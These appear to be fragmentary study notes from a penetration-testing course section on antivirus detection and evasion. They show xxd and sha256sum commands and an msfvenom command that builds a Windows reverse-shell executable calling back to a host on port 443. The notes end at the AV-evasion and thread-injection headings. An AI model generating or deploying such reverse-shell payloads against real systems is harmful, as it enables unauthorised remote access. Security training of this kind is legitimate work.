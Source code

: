 ## 14.1. Antivirus Software Key Components and Operations
### 14.1.3. Detection Methods
#### Inspecting the binary file content with xxd
```Shell
xxd -b malware.txt
```
#### Calculating the SHA256 hash of the file
```Shell
sha256sum malware.txt
```
#### Generating a malicious PE containing a meterpreter shell
```Shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f exe > binary.exe
```
#### Virustotal results on the msfvenom payload
![[9a05cfc8fe2cd0438b9b48b03c79ed23-antivirus_evasion_01b.png]]
## 14.3. AV Evasion in Practice
### 14.3.2. Evading AV with Thread Injection
